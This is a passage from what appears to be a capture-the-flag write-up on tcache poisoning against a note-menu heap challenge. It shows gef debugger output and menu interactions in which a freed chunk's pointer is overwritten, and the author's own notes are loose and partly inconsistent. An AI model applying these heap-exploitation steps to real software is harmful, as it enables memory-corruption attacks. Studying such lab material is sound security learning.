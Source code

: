 ```
gef➤  x/2x 0x0000555555558000
0x555555558000:	0x00000000	0x00000000
```
I did have to restart so if some of my addresses don't line up, that's why


0x00555555558


Oh, I just realized this may not work without pwntools as it's taking it in like ascii instead of hex...still

We get this beautiful `corrupted chunk` in tcache:
```
=========== NYU OFFSEC ============
1.	Add a note
2.	Delete a note
3.	Edit a note
4.	Read a note
5.	Exit
=========== NYU OFFSEC ============
>3
which note do you wanna edit?
>0
Content:
00555555558

Tcachebins[idx=0, size=0x20, count=1] ←  Chunk(addr=0x5555555592a0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  [Corrupted chunk at 0x5555555592a0]
```
Maybe it wouldn't be corrupted if I gave it a non-ascii value

```
=========== NYU OFFSEC ============
1.	Add a note
2.	Delete a note
3.	Edit a note
4.	Read a note
5.	Exit
=========== NYU OFFSEC ============
>1
Size:
24

```

Oh beautiful:
```
gef➤  heap bins
Tcachebins for thread 1 ─────────────────────────────────────────────────────
[!] Command 'heap bins tcache' failed to execute properly, reason: Cannot access memory at address 0x3535353535353020
```
now we know where our address is haha
## 6) Make one more note (of that same size)
```
=========== NYU OFFSEC ============
1.	Add a note
2.	Delete a note
3.	Edit a note
4.	Read a note
5.	Exit
=========== NYU OFFSEC ============
>1
Size:
24
```